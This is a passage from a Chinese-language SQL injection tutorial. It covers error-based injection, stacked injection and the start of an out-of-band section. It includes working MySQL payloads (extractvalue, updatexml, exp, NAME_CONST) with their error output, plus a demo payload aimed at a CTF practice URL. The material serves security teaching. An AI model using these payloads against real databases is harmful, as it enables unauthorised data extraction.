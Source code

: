 #### [](#623-%E5%85%B6%E5%AE%83%E6%98%BE%E9%94%99%E6%B3%A8%E5%85%A5)6.2.3 其它显错注入

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```sql<br>and extractvalue(1,concat(0x7e,(select database())))<br>//1105 - XPATH syntax error: '~sectest', Time: 0.000000s<br><br>and exp(~(select * from (select user())a)) // mysql5<br><br>union select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))a;<br>//1060 - Duplicate column name '5.7.23', Time: 0.000000s<br>``` |

#### [](#63-demo)6.3 Demo

[http://ctf5.shiyanbar.com/web/baocuo/index.php](http://ctf5.shiyanbar.com/web/baocuo/index.php)

**payload**

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```sql<br>updatexml(1,concat(0x7e,(version())),0)<br><br>http://ctf5.shiyanbar.com/web/baocuo/index.php<br>$sql="    select * from users where username='' and updatexml /*' and password='*/(1,concat(0x7e,(version())),0) or '1' "<br>``` |

## [](#7-%E5%A0%86%E5%8F%A0%E6%B3%A8%E5%85%A5)7 堆叠注入

一堆 SQL 语句(多条)一起执行

在 MySQL 中，主要是命令行中，每条语句结尾加 `;` 表示语句结束。这样可以考虑多条 SQL 语句一起使用

问题

堆叠注入和 UNION 注入的差别是？

UNION 执行的语句类型是有限的，只可以用来执行查询语句

而堆叠注入可以执行任意语句

注意：场景少；但是**威力大**

并不是每一个环境下都可以执行，很可能受 API 或者数据库引擎不支持的限制，同时权限不足也是面临的主要问题

在真实环境中：

1.  通常只返回一个查询结果，因此，堆叠注入第二个语句产生错误或者结果只能被忽略，我们在前端界面是无法看到返回结果的
2.  在使用堆叠注入之前，我们也是需要知道一些数据库相关信息的，例如表名，列名等信息

在 PHP - MySQL 中相关的 API

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>``` | ```php<br>$query  = "SELECT CURRENT_USER();";<br>$query .= "SELECT Name FROM City ORDER BY ID LIMIT 20, 5";<br><br>/* 批量执行查询 */<br>if ($mysqli->multi_query($query)) {<br>    do {<br>        /* store first result set */<br>        if ($result = $mysqli->store_result()) {<br>            while ($row = $result->fetch_row()) {<br>                printf("%s\n", $row[0]);<br>            }<br>            $result->free();<br>        }<br>        /* print divider */<br>        if ($mysqli->more_results()) {<br>            printf("-----------------\n");<br>        }<br>    } while ($mysqli->next_result());<br>}<br>``` |

## [](#8-oob-%E6%B3%A8%E5%85%A5)8 OOB 注入

| 攻击类别 | SQL 注入类型 | 说明  |
| --- | --- | --- |
| INBAND | 报错注入、UNION 注入 | 在应用内直接获取数据，通用过应用返回或者报错直接提取数据 |
| INFERENCE | 布尔注入、时间盲注 | 通过应用的非直接数据反馈进行推断 |
| OUT OF BAND | OOB SQL 注入 | 通过其它信道获取数据 |
